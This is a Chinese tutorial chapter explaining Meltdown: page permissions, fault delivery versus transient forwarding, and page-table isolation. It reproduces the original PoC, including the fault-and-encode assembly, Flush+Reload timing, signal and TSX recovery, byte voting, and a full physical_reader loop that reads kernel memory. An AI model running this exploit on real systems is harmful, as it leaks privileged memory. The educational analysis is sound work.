

用户态执行一条读取指令，目标页存在，却只允许内核访问。按 x86 的架构规则，这条指令会触发页错误，加载结果不会成为程序可见的寄存器值。经典 Meltdown 讨论的是发生在部分处理器内部的另一件事：这条会报错的加载，在异常交付之前仍可能短暂地把值交给后面的指令。

这条路径从加载的权限异常开始，即使前面没有条件分支，问题也成立。要讲清它，先把同一条加载的**地址翻译、权限判断和异常交付**分别算出来。

[[toc]]

## 一条加载要同时满足地址和权限

下列 x86-64 指令为本节分析编写。第一条从 `rdi` 指向的位置读取四字节，第二条需要这个值，第三条访问另一处地址。

```asm
mov eax, DWORD PTR [rdi]
add eax, 1
mov ecx, DWORD PTR [rsi]
```

假定当前特权级 `CPL = 3`，`rdi` 中是符合 x86-64 地址格式的线性地址，目标的 4 KiB 映射存在，并且除了页面的用户／监督者权限之外没有别的拒绝条件。题设给定目标页物理基址为 `0x123000`，`rdi` 的低 12 位为 `0x020`。页号参与翻译，页内偏移保留，因此翻译给出的目标是 `0x123020`。访问四个字节没有跨页。若还不熟悉页内偏移，可先复算[地址翻译一节](./microarch-02a-translation.md)中的例题。该篇用的是 RISC-V，本节的 U/S 和错误码按 x86 解释。

还要检查分页结构的访问权限。设本例用四级页表，从顶层到叶子的 U/S 位依次为 `1、1、1、0`。对这种分页访问，任一级把它限制为 supervisor-only，最终就不允许用户态读取。因此本例触发页错误。错误码的低三位是 `101`。第 0 位为 1，表示保护违规，第 1 位为 0，表示读，第 2 位为 1，表示发自用户态。若叶子项改为不存在，低三位变成 `100`。若改为四级的 U/S 都为 1，并保留其他题设，读取正常。

## 为什么报错和短暂传递数据可以同时成立

先看允许读取的情形。设进入这段指令前 `eax = 7`、`ecx = 8`。题设中 `[rdi]` 的四个字节按 x86 的字节序表示整数 41，`[rsi]` 是另一处有效地址，值为 73。第一条指令产生 41，`add` 得到 42，第三条独立读取 73。若三条指令正常提交，`eax = 42`、`ecx = 73`。

现在只改成 `[rdi]` 所在页为 supervisor-only。程序语义要求在第一条加载报告错误。参考[重排序缓冲（ROB）与退休](./microarch-03-execution.md)。在这一教学模型中，加载单元把故障信息关联到该指令的 ROB 项。较老的指令可以先退休。直到故障项轮到退休时，处理器才把控制交给异常处理程序。故障项及更年轻指令的结果都不能提交。内部可能存在的暂存结果和程序已经提交的寄存器值，应分别追踪。

| 阶段 | 加载和后继指令的内部过程 | 程序可见的结果 |
| --- | --- | --- |
| 1. 地址翻译与访问检查 | 能给出本例的物理位置，用户态访问被判为权限违规 | 尚无加载结果提交 |
| 2. 故障等待交付 | 部分受影响的实现可能把真实加载值短暂送给依赖指令。若 `add` 得到 41，可以暂时算出 42 | 这些值仍是内部结果 |
| 3. 故障指令到达异常处理边界 | 处理器交付页错误，停止接纳故障指令及之后的结果 | 被中断的指令流仍保留先前提交的值，即 `eax = 7`、`ecx = 8` |

<figure class="lesson-figure" style="max-width: 600px">
  <a href="/microarch/meltdown-retirement.svg" aria-label="放大查看故障记录与数据转发图">
  
  </a>
  <figcaption>图 1　同一条加载的故障记录和内部值。左侧交付 <code>#PF</code>，右侧的加法结果只存在于受影响实现的题设中。图只标出依赖关系，未给各部件排定具体周期。</figcaption>
</figure>

表中第一行列的是需要确定的事实，不能从该表推出某款处理器的权限检查电路与缓存读取谁先结束。公开资料能确认的是，特定实现即便最终交付故障，也可能曾把数据送给更年轻的操作。即便异常处理稍晚，只要实现把权限拒绝传播到数据转发逻辑，后续指令就拿不到真实值。精确异常规定程序最终看到什么，漏洞针对的是流水线内部在此之前传递过什么。

## 同一段窗口里，哪条指令能说明数据相依

对照第二和第三条指令。`add eax, 1` 的两个输入之一来自故障加载写入的内部寄存器版本。若在模型中将源值由 41 换成 80，它的计算结果也从 42 变为 81。这条依赖说明数据怎样向后传播。第三条指令的地址只看 `rsi`。若它在异常交付前已经发出请求，缓存可能发生变化，但该变化仍可以发生在替换源值以后，所以它不能说明源值通过缓存变得可区分。

这两种现象分开以后，就能准确理解经典 Meltdown 的安全链。某些受影响处理器上的故障加载能够将值交给后继操作。若该值后来影响了访存行为，缓存状态就可能反映这种区别，即使相关指令都没有退休。实际的安全结论还取决于这种差异能否到达给定的[观察者](./microarch-04b-observation.md)。题设中的 `add` 用来追踪数据依赖，本身不访问缓存。

## 用同一组数值核对四种结果

把下面的代码保存为 `fault_and_retire.c`，用 `gcc -std=c11 -O2 -Wall -Wextra fault_and_retire.c -o fault_and_retire` 编译运行。程序把页表权限和故障后提交状态写成 C 结构逐项复算。它解释 PoC 中的架构规则，不会模拟处理器内部的真实数据转发。

```c
#include <assert.h>
#include <stdbool.h>
#include <stdio.h>

struct page {
    bool present;
    bool user[4];
    unsigned value;
};

struct result {
    int internal_add;
    unsigned eax, ecx;
    unsigned page_fault_code;
};

static struct result execute(struct page page, bool model_forwarding)
{
    const bool user_read = page.present && page.user[0] && page.user[1]
                         && page.user[2] && page.user[3];
    const bool fault = !user_read;
    const int internal_add =
        page.present && (user_read || model_forwarding)
        ? (int)page.value + 1 : -1;

    if (!fault)
        return (struct result){internal_add, (unsigned)internal_add, 73, 0};
    return (struct result){internal_add, 7, 8,
                           page.present ? 5u : 4u};
}

static void show(const char *name, struct page page, bool forwarding,
                 int expected_add, unsigned expected_eax,
                 unsigned expected_ecx, unsigned expected_error)
{
    const struct result r = execute(page, forwarding);
    assert(r.internal_add == expected_add);
    assert(r.eax == expected_eax && r.ecx == expected_ecx);
    assert(r.page_fault_code == expected_error);
    printf("%s: internal add=", name);
    if (r.internal_add < 0) printf("unavailable");
    else printf("%d", r.internal_add);
    printf("  EAX=%u ECX=%u  #PF=%u\n", r.eax, r.ecx,
           r.page_fault_code);
}

int main(void)
{
    const struct page readable = {true, {true,true,true,true}, 41};
    const struct page protected = {true, {true,true,true,false}, 41};
    const struct page absent = {false, {true,true,true,false}, 41};

    show("readable", readable, false, 42, 42, 73, 0);
    show("protected, forwarding disabled", protected, false,
         -1, 7, 8, 5);
    show("protected, paper's transient case", protected, true,
         42, 7, 8, 5);
    show("unmapped", absent, true, -1, 7, 8, 4);

    struct page changed = protected;
    changed.value = 80;
    assert(execute(changed, true).internal_add == 81);
    return 0;
}
```

```text
readable: internal add=42  EAX=42 ECX=73  #PF=0
protected, forwarding disabled: internal add=unavailable  EAX=7 ECX=8  #PF=5
protected, paper's transient case: internal add=42  EAX=7 ECX=8  #PF=5
unmapped: internal add=unavailable  EAX=7 ECX=8  #PF=4
```

读者可以直接比较两个 protected 行。两者错误码都为 5，架构寄存器都保持 7 和 8。差异只在模型是否把 41 交给依赖加法。这就是原论文要检验的内部行为与架构结果之间的关系。把数据改为 80，依赖结果变为 81，说明侧信道的编码指令必须依赖故障加载的数据。此 C 程序给定并模拟了“是否转发”，本身不触发真实的越权加载。

## 原论文 PoC 怎样从故障加载走到字节输出 {#meltdown-poc}

Meltdown 原论文没有给出一份可直接编译的整套 C 工程。正文 Listing 2 给出发送数据的七行核心汇编文本，其中 `retry` 是标签；配套的 `libkdump` 把这段汇编接到探测数组、异常处理、Flush+Reload 计时和多轮评分上。读完这一节，应能沿着一个字节从目标地址走到输出候选，而不把“发生页错误”和“读出了字节”混为一谈。

先看论文 Listing 2 的原始核心。`rcx` 指向目标地址，`rbx` 指向探测数组：

```asm
xor rax, rax
retry:
mov al, byte [rcx]
shl rax, 0xc
jz retry
mov rbx, qword [rbx + rax]
```

先用 `xor rax, rax` 清零，避免旧高位混入字节。`retry` 是重试标签。`mov al, byte [rcx]` 尝试从目标虚拟地址读一个字节；若地址是用户态无权访问的内核页，架构结果是页错误。`shl rax, 0xc` 将字节左移 12 位，也就是乘以 4096。若读到 41，偏移为 `41 × 4096 = 167936 = 0x29000`。`jz retry` 在值为 0 时回到标签。最后一条从 `rbx + 0x29000` 读探测页，尝试把候选 41 的缓存行填入缓存。

这里的 `jz retry` 是针对零值偏差的重试，不是把候选 0 编码进探测数组。发生页错误的架构路径不会正常循环下去；在瞬态窗口内，零值会使后续 μops 回跳，非零值则继续访问对应探测页。异常或事务中止后，软件扫描非零候选页；若都没有命中，再把结果作为 0 或“没有可信候选”处理。论文指出，零值偏差来自目标加载与后续执行之间的竞争，随处理器与配置变化。

论文写的是 `mov al` 和 4 KiB 步长。配套代码默认的 `meltdown_nonull` 宏用 `movzx` 把字节零扩展到 `rax`，随后用 64 位寄存器完成左移和地址计算。两种写法的编码关系相同：字节值乘以页大小，再选择一个候选页。不要把它们误认为同一份逐字节相同的源代码。

配套 C 文件的 x86-64 默认宏如下。内联汇编约束 `"c"(phys)` 把目标地址放进 `rcx`，`"b"(mem)` 把探测数组基址放进 `rbx`，`"rax"` 告诉编译器这个寄存器会被改写：

```c
#define meltdown_nonull                                                   \
    __asm__ volatile(                                                     \
        "1:\n"                                                              \
        "movzx (%%rcx), %%rax\n"                                            \
        "shl $12, %%rax\n"                                                  \
        "jz 1b\n"                                                           \
        "movq (%%rbx,%%rax,1), %%rbx\n"                                     \
        :                                                                 \
        : "c"(phys), "b"(mem)                                            \
        : "rax")

#define MELTDOWN meltdown_nonull
```

这段代码要按“原仓库的历史实现”来读，不能不加检查地复制成新的 GCC 内联汇编。最后一条指令把 `rbx` 写成从探测页加载出的值，但约束 `"b"(mem)` 只声明了一个输入，既没有声明它会被改写，也没有把 `rbx` 列入破坏列表。GCC 对内联汇编的约定要求输入操作数保持原值；代码在特定构建中能通过汇编，不等于它完整描述了寄存器副作用。

下面把相同的依赖关系写成一个约束完整的教学版本：字节仍决定左移 12 位后的探测地址，但探测页的加载结果写进已经声明为破坏项的 `rax`，不改写输入基址 `rbx`。`movzbl` 是 GNU 汇编 AT&T 语法的零扩展形式；写 `eax` 会同时清零 `rax` 高 32 位。`cc` 和 `memory` 告诉编译器这段汇编改变条件码并访问内存：

```c
static inline void encode_byte(const volatile unsigned char *target,
                               const volatile unsigned char *probe)
{
    __asm__ volatile(
        "1:\n\t"
        "movzbl (%%rcx), %%eax\n\t"
        "shl $12, %%rax\n\t"
        "jz 1b\n\t"
        "movq (%%rbx,%%rax,1), %%rax\n\t"
        :
        : "c"(target), "b"(probe)
        : "rax", "cc", "memory");
}
```

两个版本都要求地址约束与寄存器用途相符。还要注意，库中的全局变量 `phys` 名字容易让人误会：默认变体里它保存的是供 CPU 翻译的目标虚拟地址，不是已经翻译出的物理地址。

### 先把探测数组准备成 256 个候选页

配套实现用约 1 MiB 空间放置 256 个 4 KiB 页。每个候选值只读对应页的页首，例如候选 41 对应 `mem + 41 × 4096`。相邻候选之间隔一个页，避免一次访问邻近字节就把别的候选一起带入缓存；论文明确把这一间距用于降低硬件预取对通道的干扰。初始化时实现将这些候选位置逐一清出缓存。

库按页边界对齐这块区域，先把内存实际写过，再对 256 个候选页首执行 `CLFLUSH`：

```c
_mem = malloc(4096 * 300);
mem = (char *)(((uintptr_t)_mem & ~(uintptr_t)0xfff) + 2 * 4096);
memset(mem, 0xab, 290 * 4096);
for (int j = 0; j < 256; ++j)
    flush(mem + (size_t)j * 4096);
```

预先写入使候选页由实际内存页支撑，而不是仅依赖尚未分配实体页的虚拟区间。基址对齐以后，`mem + i × 4096` 落在第 `i` 个页的开头。发送端访问一个候选，恢复端只需逐页读同一个页内偏移。这里的 4 KiB 是该 PoC 选用的页大小；它不应与前文 Spectre 示例的 512 字节探测步长混用。

`libkdump_config_t` 把阈值、异常收束和重复次数放在一个配置对象里。默认配置会先测一次缓存命中与未命中的时间分布，再选阈值；根据 TSX 支持情况选择 TSX 或信号处理路径。其余默认字段各自控制不同阶段：

| 配置字段 | 默认实验值或来源 | 作用 |
| --- | --- | --- |
| `cache_miss_threshold` | 初始化时测量 | 区分探测页的快速命中与较慢访问 |
| `fault_handling` | 检查后选择 TSX 或 SIGSEGV | 决定故障后怎样回到软件扫描 |
| `measurements` | 3 | 同一个目标字节重复测量并累积候选 |
| `accept_after` | 1 | 候选至少出现多少次才可参与返回值选择 |
| `retries` | 10000 | 一轮目标读取内，零值或无命中时最多重试次数 |
| `load_threads` / `load_type` | 1 个 NOP 线程 | 让配置可在目标上调整竞争负载；不是编码秘密的必要步骤 |
| `physical_offset` | Linux 直接映射配置 | 供物理地址转换接口使用，不参与单个虚拟地址的缓存编码 |

一次编码只能留下缓存状态，不能直接返回 `rax` 里的秘密值。恢复端在 256 个页首上逐一执行“计时加载，然后再清理该位置”。下面是按配套代码中 `rdtsc`、`maccess`、`flush` 和 `flush_reload` 的调用关系整理出的 x86-64 GCC C 实现：

```c
#include <sched.h>
#include <stddef.h>
#include <stdint.h>

static inline uint64_t rdtsc_ordered(void)
{
    uint32_t lo, hi;
    __asm__ volatile("mfence\n\trdtsc" : "=a"(lo), "=d"(hi) :: "memory");
    __asm__ volatile("mfence" ::: "memory");
    return ((uint64_t)hi << 32) | lo;
}

static inline void maccess(const void *ptr)
{
    __asm__ volatile("movq (%0), %%rax" :: "c"(ptr) : "rax");
}

static inline void flush(const void *ptr)
{
    __asm__ volatile("clflush 0(%0)" :: "c"(ptr) : "rax");
}

static int flush_reload(void *ptr, size_t hit_threshold)
{
    uint64_t start = rdtsc_ordered();
    maccess(ptr);
    uint64_t end = rdtsc_ordered();
    flush(ptr);
    return end - start < hit_threshold;
}

static int read_candidate_pages(char *probe, size_t hit_threshold)
{
    for (int i = 1; i < 256; ++i) {
        if (flush_reload(probe + (size_t)i * 4096, hit_threshold))
            return i;
        sched_yield();
    }
    return 0;
}
```

`maccess` 是一条真正的加载，不能让编译器把测量对象删掉。`rdtsc` 前后的 `mfence` 用来限制计时窗口里的乱序；`clflush` 在测量后清理刚访问的位置，为下一轮扫描做准备。若时间小于阈值，该页更像一次缓存命中。扫描代码从 1 开始，是因为默认汇编在值为 0 时重试；它按地址递增，遇到第一个非零命中就返回该候选，无命中时才返回 0。原仓库的 TSX 与信号路径都采用这种首个候选返回方式。多轮测量和投票用于降低一次误命中的影响。

### 页错误怎样结束一次测量

`libkdump` 有两条控制路径。若启用 Intel TSX，目标加载与编码指令包在事务中；发生故障会中止事务，控制从事务开始处之后继续，C 代码随后扫描探测页。若用信号处理，`setjmp` 先保存恢复点，目标加载触发 `SIGSEGV` 后，处理函数用 `longjmp` 返回这个位置，再执行相同的扫描。事务中止或信号处理撤销架构执行路径的结果；缓存作为微架构状态，仍由后续计时检查。

原仓库的信号处理函数在 `longjmp` 前会显式解除 `SIGSEGV` 的屏蔽。信号处理函数结束后，进程会再次尝试目标加载；若信号仍处于屏蔽状态，下一次故障就不会沿同一条路径恢复。下面把这一细节和一次尝试放在一起。全局 `buf` 是 `jmp_buf`，`MELTDOWN` 代表前文的故障加载与编码汇编：

```c
#include <setjmp.h>
#include <signal.h>

static jmp_buf buf;

static void unblock_signal(int signum)
{
    sigset_t signals;
    sigemptyset(&signals);
    sigaddset(&signals, signum);
    sigprocmask(SIG_UNBLOCK, &signals, NULL);
}

static void segfault_handler(int signum)
{
    (void)signum;
    unblock_signal(SIGSEGV);
    longjmp(buf, 1);
}

static int one_signal_attempt(void)
{
    if (setjmp(buf) == 0)
        MELTDOWN;              /* 页错误会进入 SIGSEGV 处理函数 */

    return read_candidate_pages(probe, hit_threshold);
}
```

实际仓库还要先用 `signal(SIGSEGV, segfault_handler)` 安装处理函数。`setjmp` 第一次返回 0 时执行故障加载；由 `longjmp` 恢复时返回非零，代码跳过宏并开始扫描。若用 TSX，关键结构则是 `if (xbegin() == _XBEGIN_STARTED) { MELTDOWN; xend(); }`：正常完成时执行 `xend`，故障中止时条件不成立，转去扫描。TSX 和信号处理是两种不同的异常收束方式，不是两种不同的侧信道。

TSX 路径实际把事务指令编码成机器字节，避免汇编器或编译器版本不认识助记符时无法构建。简化到控制关系如下：

```c
static inline unsigned int xbegin(void)
{
    unsigned int status;
    __asm__ volatile(".byte 0xc7,0xf8,0,0,0,0"
                     : "=a"(status) : "a"(-1u) : "memory");
    return status;
}

static inline void xend(void)
{
    __asm__ volatile(".byte 0x0f,0x01,0xd5" ::: "memory");
}

static int one_tsx_attempt(void)
{
    if (xbegin() == ~0u) {
        MELTDOWN;
        xend();
    }
    return read_candidate_pages(mem, config.cache_miss_threshold);
}
```

`xbegin` 成功进入事务时返回 `~0u`。目标加载若使事务中止，控制直接转到 `xbegin` 之后，执行探测页扫描；普通页错误信号路径则通过 `longjmp` 离开故障指令。事务会回滚架构状态，论文所利用的缓存痕迹仍可能留在事务以外。代码里的事务状态返回值也不代表“探测到秘密”，候选值仍要由扫描来决定。

### 重试与投票怎样成为一个字节

单轮扫描可能没有非零命中，也可能被噪声误导。`libkdump_read(addr)` 把 `addr` 放入本轮目标地址，初始化 256 项 `res_stat`，然后按配置重复若干次测量。每次测量里，瞬态汇编又会针对零值重试；扫描得到的非零候选增加相应计数。最后在满足 `accept_after` 的候选中选票数最高者作为返回字节。下面保留库函数的两层循环和投票结构，省略日志与调度线程：

```c
static int read_one_byte(size_t addr)
{
    char res_stat[256] = {0};
    int max_value = 0;
    int max_votes = 0;
    int result;

    phys = addr;
    for (int measurement = 0;
         measurement < config.measurements;
         ++measurement) {
        if (config.fault_handling == TSX)
            result = libkdump_read_tsx();
        else
            result = libkdump_read_signal_handler();
        ++res_stat[result];
    }

    for (int value = 1; value < 256; ++value) {
        if (res_stat[value] > max_votes &&
            res_stat[value] >= config.accept_after) {
            max_votes = res_stat[value];
            max_value = value;
        }
    }
    return max_value;
}
```

这个片段对应 `libkdump_read` 的控制结构。一次 `libkdump_read_signal_handler` 或 `libkdump_read_tsx` 内部又有自己的 `config.retries + 1` 次尝试；只有扫描端返回一个非零候选，本层才会给它累加一票。`measurements` 决定投票次数，`accept_after` 决定候选至少要出现多少次。零值留在默认返回值 0，不参与非零候选的投票。默认参数是库的实验设置，不是处理器保证。

用字节 41 完整走一遍：目标加载若在瞬态窗口里得到 41，左移 12 位形成 `0x29000`，探测数组第 41 页被访问；异常处理恢复后，扫描端在 `probe + 41 × 4096` 测得较短延迟，本轮给候选 41 记一票。其他页面没有相同证据。重复测量后，41 若稳定成为最高票，就由 `libkdump_read` 作为整数返回。若读数为 0，代码回到目标加载的重试路径；若只有一次孤立的候选命中，则还不能把它当成确定字节。

### 调用层读的是什么，不能据此声称什么

配套仓库的 `test.c` 是自检程序：它从一组本进程字符串中选一条，逐字节调用 `libkdump_read`，把读回文本与开头的 `Expect` 对照。下面是完整调用层。它展示初始化、每字节调用和清理，但目标字符串是本进程可读数据，因此这一步只校准异常恢复、探测数组和计时通道；它本身不能证明越权加载成功。

::: details 完整 C 调用层：逐字节检查本进程测试字符串
```c
#include "libkdump.h"
#include <ctype.h>
#include <stdio.h>
#include <string.h>

int main(void)
{
    static const char test[] =
        "If you can read this, at least the auto configuration is working";
    libkdump_config_t config = libkdump_get_autoconfig();
    if (libkdump_init(config) != 0) {
        perror("libkdump_init");
        return 1;
    }

    printf("Expected: %s\n", test);
    printf("Read back: ");
    for (size_t i = 0; i < strlen(test); ++i) {
        int value = libkdump_read((size_t)(test + i));
        putchar(isprint((unsigned char)value) ? value : '?');
    }
    putchar('\n');
    libkdump_cleanup();
    return 0;
}
```

这个文件需要与 `libkdump` 一起编译；它不是独立文件。库内部把目标地址交给故障加载宏，再经恢复、候选扫描和投票返回一个字节。这个自检结果只回答“通道有没有把本进程字符串读回来”。论文 Listing 2 解释的是瞬态数据如何进入发送通道，配套实现进一步把接收端和读取程序连起来。

### 原仓库的读取程序怎样选取并输出目标

上面的自检只验证通道。配套仓库另有一个 `physical_reader.c`，负责把命令行给出的物理地址换成内核直接映射中的虚拟地址，再逐字节调用 `libkdump_read`。下面是该程序的完整主体。它不是论文 Listing 2 的一部分，而是论文实现仓库提供的读取端程序：

```c
#include "libkdump.h"
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
    size_t phys;
    if (argc < 2) {
        printf("Usage: %s <physical address> [<direct physical map>]\n",
               argv[0]);
        return 0;
    }

    phys = strtoull(argv[1], NULL, 0);

    libkdump_config_t config = libkdump_get_autoconfig();
    if (argc > 2)
        config.physical_offset = strtoull(argv[2], NULL, 0);

    libkdump_init(config);

    size_t vaddr = libkdump_phys_to_virt(phys);
    printf("Physical address       : 0x%zx\n", phys);
    printf("Physical offset        : 0x%zx\n", config.physical_offset);
    printf("Reading virtual address: 0x%zx\n\n", vaddr);

    while (1) {
        int value = libkdump_read(vaddr);
        printf("%c", value);
        fflush(stdout);
        vaddr++;
    }

    libkdump_cleanup();
    return 0;
}
```

先看参数。第一个值按十进制或 `0x` 前缀解析成物理地址；可选的第二个值覆盖物理直接映射的基址偏移。该仓库的 x86-64 头文件把默认偏移设为 `0xffff880000000000`，这是那份实现所针对的旧式内核地址布局，不是所有 Linux 内核通用的常数。对没有溢出的物理地址，`libkdump_phys_to_virt` 计算 `phys + physical_offset`。源码遇到加法回绕时会原样返回输入，并把它当成已经给出的完整内核地址；x86-64 下还会拒绝超过其设定物理范围的地址。原 `physical_reader` 没有检查转换失败的返回值。因此传给下一步的 `vaddr` 是待翻译的内核虚拟地址，不是物理地址；`libkdump_read` 的形参虽然叫 `addr`，故障加载宏接收的也是这个虚拟地址。

循环中每次只读一个字节。第一次将 `vaddr` 放入目标寄存器，故障加载和编码加载尝试把该字节写入探测数组状态；异常收束后，计时扫描把候选恢复为 `int`。程序将它转换为字符输出，刷新标准输出，再把地址加一，继续读下一个字节。这是“目标地址递增—单字节读取—逐字节输出”的完整调用链；缓存探测数组只负责解码一个字节，并不直接保存或打印目标内存。

这份示例也带有明确的系统前提：物理直接映射偏移必须对应目标内核布局，目标虚拟页在当前地址空间中的映射及处理器行为必须满足论文所讨论的条件。页表隔离会改变用户态是否仍有这些内核映射；内核版本、配置和地址布局也会改变偏移。原程序没有检查 `libkdump_init` 的返回值，而且无限循环使正常控制流到不了清理函数。阅读时应把它看作研究演示程序，分别检查地址换算、逐字节侧信道和异常收束；不能把打印出的字符数本身当成可靠性证明。

由此可见，Meltdown 的 PoC 至少有四个可分别核查的结果：目标地址的页表翻译是否存在；一次架构访问是否触发页错误；瞬态编码是否让某个探测页变热；测量与重复投票是否把这一差异恢复为正确字节。这些项不能相互替代。看到 `SIGSEGV` 只证明架构访问被拒绝；看到缓存命中还要找出对应的探测地址；正确读回本进程字符串不能单独证明跨权限读出。

## 页表隔离改的是哪一步 {#meltdown-pti}

旧的共享地址空间设计可以在用户态页表中留下内核页的 supervisor-only 映射。它让硬件知道物理位置，再依靠访问权限拒绝普通读取。Linux x86 的页表隔离（PTI）让用户态使用一套只保留少量内核入口所需区域的页表，进入内核时切到完整的内核页表。对已经移出用户态页表的内核页，前面的例题就从“存在，但权限拒绝”变成了“当前地址空间中没有这个映射”。改善发生在地址翻译这一环。

[进入内核时怎样切换页表](./microarch-04f-page-table-isolation.md#pti-entry)沿一次系统调用展开这个过程。入口刚开始执行时，权限级已经改变，但程序还在用用户页表。此时哪些映射必须留下，要从入口和出口代码需要访问的位置逐项判断。

::: details 练习：两个错误报告相同吗
仍用第一条指令，比较两个情形。甲中目标页存在，但用户读权限不足。乙中目标页在当前页表里不存在。异常如何区分？能否在乙的题设中沿用甲的物理地址？

两者都触发页错误，但错误码的第 0 位分别为 1 和 0。乙没有提供这条翻译，不能拿甲的物理地址继续推演。要分析硬件是否还会对这类情形产生别的影响，需要针对另一种机制查证。Intel 在说明中将这里讨论的经典权限型情形与 L1TF 区分开来。
:::

::: details 练习：一次页错误和未命中能说明什么
同一测量区间里出现页错误，L1 未命中计数也升高。能否据此判断故障加载的值被依赖指令使用了？

页错误支持的是架构上的访问被拒绝。L1 未命中计数汇总了这个区间内符合计数条件的事件，普通访问和[预取活动](./microarch-02-prefetch.md#prefetch-feedback)也能改变计数。要证明这个值被内部使用，还需要把故障指令与具体的后继操作联系起来。若要判断能否形成侧信道，还要说明观测者能区分什么，可回看[时间差与证据](./microarch-04b-observation.md)。
:::

## 参考文献

- [Meltdown 原论文](https://meltdownattack.com/meltdown.pdf)
- [Intel SDM 第 3A 卷 Paging 的访问权与页错误小节](https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html)
- [Intel 对 Rogue Data Cache Load 的说明](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/technical-documentation/analysis-speculative-execution-side-channels.html#variant-3-rogue-data-cache-load)
- [Linux x86 页表隔离说明](https://docs.kernel.org/arch/x86/pti.html)
- [Meltdown 论文配套 C 与汇编演示](https://github.com/isec-tugraz/meltdown)
- [配套仓库的物理地址读取程序](https://github.com/isec-tugraz/meltdown/blob/master/physical_reader.c)
- [配套仓库的异常处理、编码与测量实现](https://github.com/isec-tugraz/meltdown/blob/master/libkdump/libkdump.c)

<nav class="article-nav" aria-label="系列文章导航">

[<span class="article-nav-text"><small>上一篇</small><strong>Spectre v1 中的边界检查为何会被越过</strong></span>](./microarch-04d-spectre-v1.md){.article-nav-card .article-nav-prev rel=prev}

[<span class="article-nav-text"><small>下一篇</small><strong>进入内核时怎样切换页表</strong></span>](./microarch-04f-page-table-isolation.md){.article-nav-card .article-nav-next rel=next}

</nav>
